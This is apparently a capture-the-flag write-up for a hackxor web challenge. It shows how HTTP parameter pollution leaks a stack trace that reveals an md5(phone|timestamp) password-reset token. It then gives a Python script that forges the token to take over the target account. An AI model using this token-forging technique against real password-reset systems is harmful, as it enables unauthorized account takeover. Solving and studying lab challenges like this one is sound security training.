



## CTRL+Z (Web, 350pts)

> Delete an answerphone message
>
> [http://hackxor.net/mission?id=6](http://hackxor.net/mission?id=6)

&nbsp;

> Due to a series of unfortunate circumstances, there is a regrettable message on my new boss's answerphone. It's extremely important that this message is deleted before she has a chance to listen to it. Her phone number is 01563482431. To get familiar with the company phone system, you can use my own account: 01565664832:moosefl0ti114. Do not listen to the message. 
> 
> *The target company is known to have strict password requirements, so there's probably no point in trying a bruteforce attack -- admin*
> 
> [Go to target](http://phonecorp.hackxor.net/)

We start by checking the functions of the application and the requests that are being made. After fuzzing the parameters of the requests we see that the application returns the stack trace when an error occurs. Ommiting a POST parameter from the request would throw an exception.



This did't work on the `/reset` route. After some lost time trying to decode the `s` parameter (binary session identifier), we thought that [paramter pollution](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)) might work, since Python stores all given values to a list and that could cause an error, since the application would except a string.



Indeed this worked and from the error message we see the way the password reset token is created.

```python
hashlib.md5((args['phone']+'|'+str(int(time.time()))).encode()).hexdigest()
```

So we can generate a valid token given the phone number and the timestamp the request was made.

```python
import requests
import hashlib
from datetime import datetime, timedelta
from email.utils import parsedate

phone = '01563482431'

response = requests.post('http://phonecorp.hackxor.net/reset', data={'phone': phone})
date = parsedate(response.headers['Date'])[:6]
epoch = (datetime(*date) - datetime(1970, 1, 1)).total_seconds()
token = hashlib.md5((phone+'|'+str(int(epoch))).encode()).hexdigest()
print '[+] Password reset link: http://phonecorp.hackxor.net/reset?reset_token={}'.format(token)
```

```bash
$ python solve.py
[+] Password reset link: http://phonecorp.hackxor.net/reset?reset_token=4781565ec7451f36dce1b01a91ebee8b
```

After reseting the password, we login, delete the audio message and get awarded with the flag.


